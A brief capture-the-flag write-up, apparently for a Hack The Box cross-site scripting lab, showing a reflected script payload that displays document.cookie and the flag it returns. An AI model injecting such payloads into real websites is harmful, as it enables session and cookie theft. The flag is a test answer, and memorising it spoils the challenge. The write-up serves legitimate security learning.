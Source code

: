 ## Challenge 

To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url. 

## Solution

Using the same process as the first lab, I put the following js payload:

```js
<script>alert(document.cookie)</script>
```

and it provided the answer:

```sh
cookie=HTB{r3fl3c73d_b4ck_2_m3}
```